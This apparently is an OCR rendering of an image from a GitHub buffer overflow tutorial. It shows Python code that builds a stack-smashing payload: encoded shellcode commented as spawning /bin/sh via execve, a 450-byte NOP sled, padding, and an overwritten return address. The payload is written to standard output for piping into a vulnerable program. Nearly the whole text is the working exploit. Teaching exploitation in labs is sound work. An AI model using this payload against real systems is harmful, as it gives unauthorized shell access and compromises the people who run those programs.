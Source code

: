     buf =  b""
    buf += b"\x89\xe0\xd9\xc6\xd9\x70\xf4\x5a\x4a\x4a\x4a\x4a"
    buf += b"\x4a\x4a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43"
    buf += b"\x43\x37\x52\x59\x6a\x41\x58\x50\x30\x41\x30\x41"
    buf += b"\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42"  ### SHELL CODE TO RUN execve(/bin/sh)
    buf += b"\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x56"
    buf += b"\x51\x49\x59\x59\x67\x79\x71\x6e\x50\x56\x6b\x42"
    buf += b"\x48\x56\x4f\x44\x33\x75\x38\x35\x50\x51\x78\x34"
    buf += b"\x6f\x73\x52\x73\x59\x70\x6e\x4c\x49\x6a\x43\x4a"
    buf += b"\x6d\x6d\x50\x55\x61\x4b\x6b\x42\x4a\x45\x51\x32"
    buf += b"\x78\x48\x4d\x6b\x30\x41\x41"
    
    nop = b"\x90" * 450 ### Can Be Any Number But i Just do about halfway to be safe
    padding = b"\x41" * (712 - len(nop) - len(buf))
    eip = b"\x20\xca\xff\xff" ### Just a Place Holder
    ## 0xffffca20
    
    ### Now Lets Print it for inputting into the program
    attack = nop + buf + padding + eip
    
    sys.stdout.buffer.write(attack)


![last2](https://github.com/zevuxo1/Buffer-Overflow-Tutorial/assets/155918223/68089e7b-dca8-42f8-8961-e4e8e569e903)










  

